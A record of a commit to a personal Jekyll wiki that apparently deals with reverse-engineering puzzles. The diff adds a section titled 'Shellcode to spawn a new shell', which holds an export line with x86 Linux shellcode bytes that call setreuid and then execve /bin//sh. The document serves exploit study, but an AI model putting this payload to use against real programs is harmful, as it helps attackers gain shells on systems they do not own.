

Before and after one commit to RC1140/rc1140.github.com, a Jekyll site: the page built from wiki/index.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (283-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update index.md

```diff
--- a/wiki/index.md
+++ b/wiki/index.md
@@ -38,3 +38,8 @@ to give a solution to a RE puzzle.
 * * *
 
 [How to build a badge](/wiki/TheBuild.html)
+
+
+## Shellcode to spawn a new shell
+
+   export SHELLCODE=`echo -e "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"`
```
